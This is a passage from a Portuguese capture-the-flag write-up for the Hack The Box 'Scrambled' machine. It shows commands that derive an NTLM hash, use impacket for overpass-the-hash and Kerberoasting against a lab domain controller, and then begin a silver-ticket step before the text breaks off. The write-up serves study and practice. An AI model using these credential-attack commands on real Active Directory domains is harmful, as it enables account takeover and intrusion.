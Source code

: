 <pre><code><strong>iconv -f ASCII -t UTF-16LE &#x3C;(printf "ksimpson") | openssl dgst -md4
</strong>#ou
<strong>python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "ksimpson".encode("utf-16le")).digest()))'
</strong></code></pre>

```
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson -hashes :5f38c0485f0c23f8dedf9bf23ffa5336
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Conversão do NTLM para Kerberos (Over Pass the Hash)</p></figcaption></figure>

Agora já temos condições do obter os hashes de senhas necessários por meio do seguinte comando:

```
export KRB5NAME=/home/acosta/owncloud/Area_de_trabalho/estudos/hack_the_box/scrambled/Administrator.ccache
```

```
impacket-GetUserSPNs scrm.local/ksimpson -k -no-pass -request -dc-host dc1.scrm.local
```

**Dar atenção neste último comando, pois o nome do -dc-host deve ser conforme está no registro de DNS pra que o comando funcione corretamente.**

Agora, temos de fazer o silver ticket

### Silver ticket

Aqui precisamos de algumas informações. **Não necessitamos de um usuário com privilégio administrativo pra esse cara. Isso é IMPORTANTE.**

Então temos que ir atrás de:
